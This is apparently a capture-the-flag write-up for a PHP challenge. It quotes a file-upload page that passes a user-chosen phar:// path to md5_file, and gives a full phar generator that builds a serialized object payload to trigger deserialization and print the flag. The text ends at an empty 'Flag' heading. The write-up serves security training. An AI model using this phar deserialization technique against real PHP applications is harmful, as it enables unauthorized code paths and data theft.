

## Challenge

Find the vulnerability using the provided source code. Dockerfile included.

Exploit the vulnerability in http://challenges.ctfd.io:30455 to recover the flag. Please, no scanners, brute force, DoS against the live site.

Server is Ubuntu/Apache2/PHP7.4

## Code Review

### Index

```php
<?php
if (isset($_POST['submit']) && $_FILES['the_file']['size'] > 0)
{
	$dest_dir = getcwd() . "/uploads/";

	echo "<br />Submitted<br />";
	$target_file = $dest_dir . basename($_FILES["the_file"]["name"]);
	//print_r($_FILES);
	move_uploaded_file($_FILES["the_file"]["tmp_name"], $target_file);

	if ($_POST['s'] === 'p')
		$s = 'phar://';
	else
		$s = 'file://';
	echo md5_file("$s$target_file");
	unlink($target_file);
}
?>
```

### Doit Class

```php
<?php
class Doit {
        public function __construct()
        {
                $flag = getenv("FLAG");
                echo "flag{{$flag}}\n";
        }
}
?>
```

### Wrapper Class

```php
<?php
include("doit.php");

class Wrapper
{
	private $doit;
	public function __wakeup()
	{
		if (isset($this->doit))
		{
			$this->doit = new Doit();
		}
		else
		{
			echo "Hello from Wrapper!";
		}
	}
}
?>
```

## Exploit

At first change the `private $doit` to `public $doit` in class Wrapper, then generate code a [phar generator](./phar_creator.php) based on this class to upload a file and trigger the PHP Deserialization.

```php
<?php

namespace Flag {
  include './Project/wrapper.php';

    use Doit;
    use Wrapper;

  $phar = new \Phar("exploit.phar");
  $phar->startBuffering();
  $phar->setStub("<?php __HALT_COMPILER();");

  # Setting the metadata serializes the payload object
  $payload = new Wrapper();
  $payload->doit = new Doit();
  # Here’s where the object is serialized and added to the Phar
  $phar->setMetadata($payload);

  # Add a dummy file to respect the Phar specifications
  $phar->addFromString("test.txt", "test");
  $phar->stopBuffering();
}
```

```bash
php -c php.ini phar_creator.php
```

### Upload file

Upload a [exploit.phar](./exploit.phar) in page and with proxy change the value `f` in paramater `s` to value `p` to upload a `phar://` instead of `file://`. Check it in: [Index.php](./index.php).

### Flag
